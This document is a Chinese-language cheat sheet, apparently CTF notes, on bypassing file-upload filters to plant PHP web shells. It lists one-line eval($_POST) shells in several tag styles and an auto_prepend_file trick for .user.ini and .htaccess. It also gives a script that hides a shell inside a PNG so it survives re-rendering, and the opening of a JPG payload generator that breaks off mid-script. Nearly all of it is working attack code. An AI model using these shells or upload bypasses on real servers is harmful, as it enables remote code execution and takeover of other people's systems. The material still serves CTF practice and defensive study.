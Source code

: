 

## (八) 文件上传

### 1. 短标签

```
1:<?= eval($_POST[1]);?>
2:<? eval($_POST[1]);?>
3:<% eval($_POST[1]);%>
```

### 2. .user.ini .htaccess

```
auto_prepend_file=pass.png
```

### 3. png二次渲染

脚本

```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
 
 
 
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
 
imagepng($img,'1.png');
?>
```

php5及以下使用 get 传 0=system post 传1=

### 4 jpg渲染

```
<?php
    $miniPayload = "<?=`tac f*`?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

```